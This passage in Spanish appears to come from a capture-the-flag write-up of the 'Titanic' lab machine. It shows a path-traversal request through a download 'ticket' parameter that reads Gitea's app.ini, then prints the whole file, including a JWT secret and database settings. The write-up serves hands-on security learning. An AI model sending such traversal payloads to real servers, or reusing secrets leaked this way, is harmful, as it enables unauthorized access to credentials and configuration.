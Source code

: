 En este archivo encontraremos la ruta que `custom `  que es `/data/gitea` y podemos leer el archivo sensible. `/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini `

![20250829223741.png](20250829223741.png)

```c
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
```
